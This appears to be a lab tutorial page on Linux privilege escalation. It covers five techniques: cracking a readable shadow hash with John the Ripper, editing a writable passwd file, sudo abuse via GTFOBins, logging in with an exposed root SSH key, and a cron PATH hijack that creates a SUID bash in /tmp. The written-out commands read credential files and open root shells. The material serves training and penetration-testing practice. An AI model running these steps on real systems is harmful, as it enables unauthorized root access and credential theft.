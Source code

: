 # 🔥 Linux Privilege Escalation

In this we are going to see different type of methods for Linux Privilege Escalation for this you have to get a ssh or reverse connection to a linux machine

You can watch tutorial on my youtube or set up a victim linux machine and get a ssh connection to your attacker machine.

### (Method #1)

So after setting up the connection check the shadow file is accessible by the normal user or not,in this it can be accesses so we will copy the hash of the root user and save in a txt file to run it with john the ripper to bruteforce for the password and login with the root user.



<figure><img src=".gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

```bash
// john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src=".gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

Here you will get the root password and you can login with su root and password.

### (Method #2)

In this method we will first check the permissions of the passwd file&#x20;

<figure><img src=".gitbook/assets/new.png" alt=""><figcaption></figcaption></figure>

then if is accesssible by the normal user we will generate the a password and replace the root password of the file with ours and then login in the root user.

<figure><img src=".gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

### (Method #3)

In this method we will first type **sudo -l** to check the available sudo commands which can be run without the password

<figure><img src=".gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

then go to [https://gtfobins.github.io/](https://gtfobins.github.io/) and search for any of the commands in this i will be searching for the awk command.

<figure><img src=".gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

and then copy the sudo one and paste it in terminal and you will get the root shell.

<figure><img src=".gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

### (Method #4)

Look for hidden files & directories in the system root:

`ls -la /`

Note that there appears to be a hidden directory called .ssh. View the contents of the directory:

`ls -l /.ssh`

Note that there is a world-readable file called root\_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the root\_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

`chmod 600 root_key`

Use the key to login to the Debian VM as the root account (note that due to the age of the box, some additional settings are required when using SSH):

`ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@MACHINE_IP`

### (Method #5)

View the contents of the system-wide crontab:\


`cat /etc/crontab`

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

\#!/bin/bash\
\
cp /bin/bash /tmp/rootbash\
chmod +xs /tmp/rootbash

Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated user.

`rm /tmp/rootbash`\
`exit`



